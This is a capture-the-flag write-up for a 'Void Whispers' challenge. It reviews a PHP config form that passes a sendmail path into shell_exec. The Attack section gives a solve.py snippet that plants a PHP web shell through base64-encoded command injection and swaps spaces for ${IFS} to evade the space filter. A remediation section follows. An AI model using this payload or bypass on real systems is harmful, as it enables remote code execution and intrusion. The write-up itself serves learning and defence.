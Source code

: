 # Void Whispers
- difficulty: very easy
- vulnerabilities: command injection

## App Review
The app presents a form to the user that appears to be used for configuration of a backend email system.  The form has 4 fields: From Name, From Email, Sendmail PATH, and Mail Program.

## Code Review
As always, I'll start by checking to see what happens to flag.  Looking at the Dockerfile I can see that the flag.txt file is copied into the root dir.  Since there are no other references to flag.txt within the source code of the app, I know that I'm looking for an arbitrary file read or command/code execution vulnerability.

The initial App Review showed a POST of 2 very interesting fields: Sendmail PATH and Mail Program.  I find these fields interesting because they reference something on the linux filesystem so I initially look at how the user input from these fields is being handled.  One of the fields, sendMailPath, is being validated to make sure the path exists and if it does exist then it is being written to a config.json file with the user input from the other 3 fields.  However, the mechansim for validating the sendMailPath user input is insecure and vulnerable to command injection.

```
// filename: controllers/IndexController.php

if (preg_match('/\s/', $sendMailPath)) {
  return $router->jsonify(['message' => 'Sendmail path should not contain spaces!', 'status' => 'danger'], 400);
}

$whichOutput = shell_exec("which $sendMailPath");
if (empty($whichOutput)) {
  return $router->jsonify(['message' => 'Binary does not exist!', 'status' => 'danger'], 400);
}
```
The code does attempt to do some sanitization by rejecting any input that contains spaces, however, this is inadequate as an attacker can use ```${IFS}``` as a substitue.  Since the sendMailPath is being used in a shell command with inadequate sanitization, an attacker may inject into the string to execute their own shell commands.

## Attack
Since the web app does not provide any output from the command, the vector here is to upload a php web shell to the /www directory then call it with a GET request.  Another approach is to read the contents of the file and send it back to a host that the attacker controls.  For the sake of codability, I'll use the first approach.  It's easiest to see how this works by referencing the solve.py script.
```
php = '<?php system($_GET["cmd"]); ?>'
cmd = f'echo \'{php}\' > /www/rev.php'
cmd = base64.b64encode(cmd.encode()).decode()

data = {
    'from': 'meowName',
    'email': 'meow@email.com',
    'sendMailPath': f'/usr/sbin/sendmail & echo {cmd}|base64 -d|sh',
    'mailProgram': 'sendmail',
}

data['sendMailPath'] = data['sendMailPath'].replace(' ', '${IFS}')
```
As a result, the shell command that gets executed via ```shell_exec``` will being:
```
/usr/sbin/sendmail${IFS}&${IFS}echo${IFS}ZWNobyAnPD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+JyA+IC93d3cvcmV2LnBocA==|base64${IFS}-d|sh
```

## Remediation
The best thing to do here is to NEVER let user input get into the ```shell_exec``` command.  In this case, the machanism should probably just be removed and replaced.  For example, instead of allowing the user to input any mail program, they can select from a few predefined options.  The path to the mailProgram can then be hardcoded into the backend.  This way ```shell_exec``` is no longer needed.